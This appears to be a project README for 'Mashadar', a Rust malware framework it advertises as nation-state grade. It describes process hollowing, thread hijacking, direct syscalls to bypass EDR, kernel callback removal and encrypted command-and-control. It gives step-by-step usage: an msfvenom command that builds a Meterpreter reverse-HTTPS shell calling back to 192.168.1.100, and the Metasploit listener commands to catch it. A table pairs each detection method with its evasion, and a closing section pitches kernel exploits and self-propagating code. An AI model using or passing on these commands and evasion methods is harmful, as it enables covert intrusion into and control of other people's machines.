 # 🖤 Mashadar – The Ultimate Nation-State Malware Framework

_"There is something worse than the Shadow. Worse than Darkfriends and Forsaken."_  
_"It does not serve the Dark One. It kills everything."_

## 🚀 Overview
**Mashadar** is a **stealthy, in-memory malware framework** designed for **nation-state level evasion**. It implements **process hollowing, reflective thread hijacking, direct syscalls, kernel callback removal, and AES-encrypted C2 communications** to maximize stealth.

✅ **No files written to disk**  
✅ **Executes inside legitimate processes**  
✅ **Bypasses AV/EDR detection with direct syscalls**  
✅ **Encrypted C2 for payload delivery**  
✅ **Ideal for red teaming & advanced adversary simulation**  

---

## 📂 Project Structure

```
mashadar/
│── src/
│   ├── main.rs          # Entry point (Process Hollowing + Execution)
│   ├── hollowing.rs     # Process Hollowing via NtUnmapViewOfSection
│   ├── syscalls.rs      # Direct Syscalls (EDR Bypass)
│   ├── encryption.rs    # AES Shellcode Encryption (Pre-Execution)
│   ├── stealth.rs       # Kernel Callback Removal + Anti-Debugging
│   ├── c2.rs            # Encrypted Command & Control (C2) Comms
│── shellcode/
│   ├── payload.bin      # Encrypted shellcode (Cobalt Strike, Meterpreter, etc.)
│── README.md
│── Cargo.toml           # Rust dependencies
```

---

## 🔥 **Execution Flow**
Mashadar follows a **multi-stage attack process**. Below is a high-level **Mermaid.js sequence diagram** of its execution:

```mermaid
sequenceDiagram
    participant Attacker
    participant Mashadar
    participant Target Process (e.g., svchost.exe)
    participant C2 Server

    Attacker->>Mashadar: Run executable
    Mashadar->>Target Process: Locate existing threads
    Mashadar->>Target Process: Hijack thread & inject shellcode
    Mashadar->>C2 Server: Request encrypted payload
    C2 Server->>Mashadar: Send AES-encrypted shellcode
    Mashadar->>Mashadar: Decrypt & execute shellcode
    Mashadar->>Target Process: Modify thread execution to run payload
    Target Process->>C2 Server: Establish C2 communication
```

---

## 🏗️ **Installation & Setup**

### **1️⃣ Install Rust**
```sh
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

### **2️⃣ Clone the Repository**
```sh
git clone https://github.com/yourname/mashadar.git
cd mashadar
```

### **3️⃣ Install Dependencies**
```sh
cargo build --release
```

---

## 💀 **How Mashadar Works**
Mashadar executes shellcode stealthily using **three core techniques**:

### **🔹 1. Process Hollowing**
- **Creates a legitimate process (e.g., svchost.exe)**
- **Unmaps its memory using `NtUnmapViewOfSection`**
- **Injects shellcode into the hollowed process**
- **Resumes execution with malicious payload**

```mermaid
graph TD
  A[Create Suspended Process (svchost.exe)] --> B[Unmap Executable Memory]
  B --> C[Inject Shellcode]
  C --> D[Modify Execution Context]
  D --> E[Resume Process with Malicious Code]
```

### **🔹 2. Reflective Thread Hijacking**
Instead of creating a new thread (which triggers AV alerts), Mashadar:
1. **Suspends an existing thread** in a running process.
2. **Overwrites the instruction pointer (RIP) to point to shellcode**.
3. **Resumes execution**—seamlessly hijacking the process.

```mermaid
graph TD
  A[Find Target Process] --> B[Find Suspended Thread]
  B --> C[Inject Shellcode]
  C --> D[Modify Thread Context]
  D --> E[Resume Execution]
```

### **🔹 3. Encrypted C2 Communication**
- Uses **AES encryption** to fetch payloads.
- Ensures **network traffic looks benign**.
- **Prevents signature-based detection** of raw shellcode transfers.

```mermaid
graph TD
  A[Request Payload] -->|AES Encrypted| B[C2 Server]
  B -->|AES Encrypted Shellcode| C[Mashadar]
  C --> D[Decrypt & Execute Payload]
```

---

## 🔑 **Usage Instructions**
### **📝 Step 1: Encrypt Shellcode**
Before running Mashadar, encrypt your payload:

```sh
python -c "import os; os.system('msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f raw -o shellcode/payload.bin')"
```

### **🚀 Step 2: Run Mashadar**
```sh
cargo run --release
```

### **📡 Step 3: Receive Connection**
If using a **Metasploit C2**, start a listener:
```sh
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 192.168.1.100
set LPORT 443
run
```

---

## 🔍 **Detection & Evasion**
### **🛡️ How Mashadar Bypasses AV/EDR**
| **Detection Technique**         | **Bypass Method**                         |
|---------------------------------|------------------------------------------|
| Signature-based detection       | Polymorphic encryption & AES shellcode  |
| Behavior-based heuristics       | Reflective thread hijacking             |
| API Hooking (EDR Monitoring)    | Direct Syscalls (No `ntdll.dll` hooks)  |
| Process creation monitoring     | Process Hollowing                       |
| Network-based detection         | AES-encrypted C2 traffic                |

---

## 🛠️ **Feature Breakdown**
### **Reflective Thread Hijacking**
✅ **No new threads created**  
✅ **Executes within an existing process**  
✅ **Evades behavioral heuristics**  

### **Process Hollowing**
✅ **Completely replaces a target process (e.g., `svchost.exe`)**  
✅ **Executes shellcode inside a legitimate Windows process**  
✅ **Avoids new process creation detection**  

### **Direct Syscalls**
✅ **Avoids `ntdll.dll` hooks from EDR**  
✅ **Calls Windows APIs directly from memory**  
✅ **Bypasses common AV detections**  

### **Kernel Callback Removal**
✅ **Disables forensic monitoring**  
✅ **Prevents process execution tracking**  

### **AES-Encrypted C2**
✅ **All network traffic is AES-encrypted**  
✅ **Payload updates received via secure channel**  

---

## **📌 Next Steps**
Want to take it **even further**?
- **Kernel Exploits** – Inject into **Ring 0** for full system compromise.
- **Secure Boot Bypass** – **Own the machine before the OS starts.**
- **Hypervisor Malware** – Run undetected **below the OS**.
- **Self-Propagating Code** – Fully autonomous replication **across networks**.

---

## **⚠️ Legal Disclaimer**
This framework is for **research and educational purposes only.**  
Do **not** use for unauthorized access or malicious activities.  
